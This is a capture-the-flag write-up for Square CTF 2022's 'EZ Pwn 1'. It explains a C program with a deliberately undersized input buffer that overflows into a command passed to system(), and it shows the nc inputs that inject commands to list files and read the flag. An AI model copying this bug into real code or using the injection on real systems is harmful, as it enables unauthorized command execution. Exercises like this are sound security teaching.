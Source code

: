 # EZ Pwn 1, Pwn, 50pts

Memory safety? Whats that?
Required Reading:
- https://en.wikipedia.org/wiki/Stack_buffer_overflow

## Problem

We are given the source code of C program, which contains buffer overflow error:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>


int main()
{
    char command[16];
    char way_too_small_input_buf[8];
    strcpy(command, "ls");

    puts("Hi! would you like me to ls the current directory?");
    read(0, way_too_small_input_buf, 24);
    if (!strcmp(way_too_small_input_buf, "no\n")) {
        puts("Oh, ok :(");
        exit(0);
    }

    puts("Ok, here ya go!\n");
    system(command);

}
```

Our goal is to get the flag located somewhere on `chals.2022.squarectf.com:4100`

## Solution

From looking at the source code, we can see two `char[]` types being declared.
The first one is a `command` string of 16 characters and the second one is an input controlled by an attacker - a string `way_too_small_input_buf` of 8 characters. The way how they will be put on stack means that if we overfill `way_too_small_input_buf`, it starts to overwrite the content of `command`. Execution of the `system(command)` line gives us an opportunity to run injected commands on the remote machine. The only caveat here is that our payload can't be longer than 24 characters in total (the rest of the input is going to be truncated).

Let's try see if we can execute our own command then. First 8 characters of our input does not matter as they won't become the part of the `command` variable, so it's just a filler to get us to the beginning of `command` characters array:

```
$ nc chals.2022.squarectf.com 4100
Hi! would you like me to ls the current directory?
AAAAAAAAwhoami
Ok, here ya go!

pwnable_user
```

That seems to work as expected:

- `AAAAAAAA` fills out `way_too_small_input_buf` characters array
- then, there is `whoami` command, which overwrites `command` buffer, located next to `way_too_small_input_buf` in memory
- our injected command is then executed

Let's figure out where the flag is:

```$ nc chals.2022.squarectf.com 4100
Hi! would you like me to ls the current directory?
AAAAAAAAls -lRA
Ok, here ya go!

.:
total 28
-rw-r--r-- 1 root pwnable_user  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 root pwnable_user 3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 root pwnable_user  807 Jan  6  2022 .profile
-r-xr-x--- 1 root pwnable_user 8528 Nov  6 21:09 ez-pwn-1
drwxr-xr-x 1 root pwnable_user 4096 Nov  9 04:49 the_flag_is_in_here

./the_flag_is_in_here:
total 4
-r--r----- 1 root pwnable_user 64 Nov  6 21:09 flag.txt
```

We can see the flag file is located in `./the_flag_is_in_here` directory. To display the flag, we need to execute command similar to this one:

```
cat ./the_flag_is_in_here/flag.txt
```

The problemn here is that we have only 16 characters to use, because this is the size of `command` characters array used in `system(command);` execution and our payload has 35 characters. We need to shorten it to maximum 16 characters.

To be able to do so, we can use wildcard character (`*`), whcih is going to be expanded by shell. Here's one of the examples:

```
cat ./the*/*.txt
```

In the example above, `the*` is going to be expanded to `the_flag_is_in_here` (because there is no other directory with the name starting from `the`) and `*.txt` will expand to `flag.txt`. We can even make it shorter:

```
cat ./t*/*
```

Let's see if this will work:

```
$ nc chals.2022.squarectf.com 4100
Hi! would you like me to ls the current directory?
AAAAAAAAcat ./t*/*
Ok, here ya go!

flag{congrats_youve_exploited_a_memory_corruption_vulnerability}
```

And we get the flag - `flag{congrats_youve_exploited_a_memory_corruption_vulnerability}` and 50 points :)


